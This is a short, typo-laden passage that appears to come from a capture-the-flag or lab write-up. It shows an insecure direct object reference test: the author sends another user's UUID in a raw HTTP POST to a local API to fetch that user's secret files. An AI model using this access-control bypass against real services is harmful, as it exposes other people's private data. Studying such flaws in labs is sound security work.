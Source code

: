<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

so i triesd to send the user's uuid in  a get parameter to retreive the suser''s secret files \
i took the \[arameter fromt he previousas request that was getting suer's files using usere's uuids&#x20;

```http
POST /api/v3/users HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://127.0.0.1/
Content-Type: application/json
Content-Length: 52
Origin: http://127.0.0.1
DNT: 1
Sec-GPC: 1
Connection: close
Cookie: uuid_hash=<>
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-PwnFox-Color: red
Priority: u=4

{"user_uuid":"05262283-b53e-4410-8793-21c7eef6ed19"}
```
